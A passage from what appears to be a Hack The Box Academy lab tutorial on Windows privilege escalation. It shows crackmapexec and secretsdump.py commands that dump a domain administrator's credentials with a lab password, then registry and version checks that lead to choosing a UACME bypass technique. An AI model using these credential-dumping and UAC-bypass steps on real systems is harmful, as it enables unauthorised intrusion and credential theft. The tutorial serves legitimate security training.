 From here, we have full control over the Domain Controller and could retrieve all credentials from the NTDS database and access other systems, and perform post-exploitation tasks.

```shell-session
PrinceAli1@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

```shell-session
PrinceAli1@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

## **Attacking the OS**

### User Account Control

#### Confirming UAC is Enabled

There is no command-line version of the GUI consent prompt, so we will have to bypass UAC to execute commands with our privileged access token. First, let's confirm if UAC is enabled and, if so, at what level.

``` batch
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

``` batch
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

#### Checking Windows Version

UAC bypasses leverage flaws or unintended functionality in different Windows builds. Let's examine the build of Windows we're looking to elevate on.

```powershell
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it. Let's use technique number 54, which is stated to work from Windows 10 build 14393. This technique targets the 32-bit version of the auto-elevating binary `SystemPropertiesAdvanced.exe`. There are many trusted binaries that Windows will allow to auto-elevate without the need for a UAC consent prompt.
